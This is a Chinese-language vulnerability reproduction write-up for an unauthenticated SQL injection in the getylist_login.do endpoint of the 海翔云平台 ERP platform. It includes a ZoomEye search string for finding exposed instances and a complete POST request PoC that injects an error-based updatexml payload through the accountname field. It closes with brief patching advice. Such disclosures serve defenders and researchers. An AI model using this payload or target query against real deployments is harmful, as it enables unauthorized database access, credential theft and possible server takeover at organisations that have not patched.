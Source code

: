 
# 海翔云平台 getylist\_login.do SQL 注入漏洞复现

### 0x01 产品简介

  海翔[云平台](https://so.csdn.net/so/search?q=%E4%BA%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)一站式整体解决方案提供商，业务涵盖 批发、连锁、零售行业ERP解决方案、wms仓储解决方案、电商、外勤、移动终端（PDA、APP、小程序）解决方案。

### 0x02 漏洞概述

  海翔云平台getylist\_login.do接口处存在SQL注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库权限，除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

钟馗之眼：app:"海翔云平台"

![](assets/1701222661-98a7b56d15a11a488ca28afe30b8a250.png)

### 0x04 漏洞复现

PoC

```cobol
POST /getylist_login.do HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 75

accountname=test' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));--
```

查询当前用户

![](assets/1701222661-49e2e868510a8567a542c63beae53828.png)

### 0x05 修复建议

官方已修复该漏洞，建议受影响的用户升级至安全版本：http://www.seaflysoft.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
